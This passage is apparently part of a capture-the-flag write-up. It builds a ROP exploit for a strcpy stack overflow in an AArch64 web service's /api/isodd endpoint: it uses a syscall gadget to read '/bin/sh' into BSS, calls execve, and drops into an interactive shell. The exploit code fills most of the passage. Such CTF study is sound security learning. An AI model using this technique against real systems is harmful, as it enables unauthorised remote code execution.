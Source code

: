 ```python  
shell = b'/bin/sh\0'

payload  = b''  
payload += b'GET /api/isodd/'  
payload += b'%\0'  
payload += 40 * b'A'

urlload  = b''  
urlload += p64(0)  
urlload += p64(0)  
urlload += p64(binary.bss())  
urlload += p64(constants.SYS_execve)  
urlload += p64(len(shell))  
urlload += p64(binary.bss())  
urlload += p64(constants.STDIN_FILENO)  
urlload += p64(constants.SYS_read)  
urlload += 8 * b'A'  
urlload += p64(binary.sym.syscall)

payload += urllib.parse.quote(urlload).encode()  
```

The initial part of the payload should be clear from the Analysis section
above.

> The payload should be URL quoted (`%nn%nn%nn`...) so that `strcpy` does not
> prematurely terminate.

Starting form the bottom, the `8 * b'A'` and `syscall` will land in `x29` and
`x30` curtesy of the end from `strcpy` with `sp` pointing to `8 * b'A'` on the
stack with our `read` payload just above it.  The `syscall` gadget (see
assembly above) will load the next four stack lines going _up_ into `x8`,
`x0`, `x1`, `x2`, and then execute the syscall to read from `stdin` (`0`) our
8-byte payload (`/bin/sh\0`) into the BSS (`binary.bss()`); after the syscall
`sp` will be pointing just below our next set of four parameters, when `ret`
is executed, `syscall` is executed again since `x30` was never updated (this
isn't x86_64), and the cycle continues, but this time with `execve` executing
`/bin/sh\0` stored in the BSS.

```python  
payload += (0x3ff - len(payload)) * b'A'

p.send(payload)  
p.send(shell)  
p.interactive()  
```

> The padding at the end of the payload is to fill up the first read so that
> our second `send` does not land in the wrong `read`.

Finally we just need to send the payload, that will wait for our input
(`/bin/sh\0`), then continue on with the `execve`.

Output:
